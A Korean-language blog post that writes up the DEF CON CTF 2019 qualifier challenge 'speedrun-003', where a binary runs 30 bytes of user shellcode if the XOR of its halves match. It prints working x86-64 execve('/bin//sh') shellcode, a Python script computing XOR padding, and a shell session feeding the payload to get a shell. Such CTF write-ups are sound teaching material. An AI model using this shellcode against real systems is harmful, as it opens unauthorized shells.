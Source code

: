 ```yaml
---
layout: post
title: ! "[DefconCTF 2019] speedrun-003"
excerpt_separator: <!--more-->
comments : true
tags:
  - Defcon CTF
  - Write-up
---
```


### Description

Defcon CTF 2019 온라인 예선에 나왔던 문제.

다른 팀원들이 일부러인지 안 풀어서 풀어보았다.


<!--more-->

### 문제 풀이

문제 자체는 무지 간단하다.

![]({{ site.baseurl }}/images/KRater/2019-06-01-speedrun003-writeup/pic01.png)

입력 받고, 그대로 쉘코드를 실행시켜 준다. 대신에 조건이 두 가지가 있는데

1) 쉘 코드 길이가 30이어야 하고,

2) 앞 15바이트가 뒤 15바이트와 xor 연산 결과가 같아야 한다.

말 그대로, 앞의 15바이트가 각각 모두 xor한 결과가 뒤의 15바이트를 각각 모두 xor한 결과와 같아야 한다는 것이다.

문제를 풀기 위해 사용한 쉘 코드는 스탠다드한 24바이트짜리 쉘코드이다.

`\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05`

해당 쉘코드의 끝에 도달하면 뒤의 인스트럭션은 실행될 필요가 없으므로, 뒤에 패딩 6바이트를 붙여서 전반부 쉘코드의 xor 된 결과와 후반부 쉘코드의 xor 된 결과를 같게 만들어주면 된다.

```python
sc = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

print (len(sc))
tmp = 0
for i in range (0,15):
    tmp = tmp ^ ord(sc[i])

print ("first 15 bytes : 0x%X" % tmp) # result : 0xCD

tmp = 0
for i in range (15, len(sc)):
    tmp = tmp ^ ord(sc[i])

print ("last 15 bytes : 0x%X" % tmp) # result : 0xC2

#sc[24] = "\xC2" # xored = 0
#sc[25] = "\xCD" # xored = CD
#sc[26] = "\xCD" # xored = 0
#sc[27] = "\xCD" # xored = CD
#sc[28] = "\xCD" # xored = 0
#sc[29] = "\xCD" # xored = CD

sc2 = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\xC2\xCD\xCD\xCD\xCD\xCD"

print (len(sc2))
print (sc2)
```

이제 0xC2를 0xCD로 바꾸어주면 되므로, 뒤에 패딩을 붙인다. 0xC2를 xor해서 0으로 만들어준 뒤, 0xCD를 홀수 번 xor시켜서 최종 결과가 0xCD가 되도록 맞추어 준다.

```bash
cragy0516@argos-edu:~/decon2019/speedrun-003$ (python -c 'print "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\xC2\xCD\xCD\xCD\xCD\xCD"';cat) | ./speedrun-003
Think you can drift?
Send me your drift
ls
cal.py	ex.py  speedrun-003
```

쉘 코드가 성공적으로 실행되었다.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTExODQ0NjU1MDJdfQ==
-->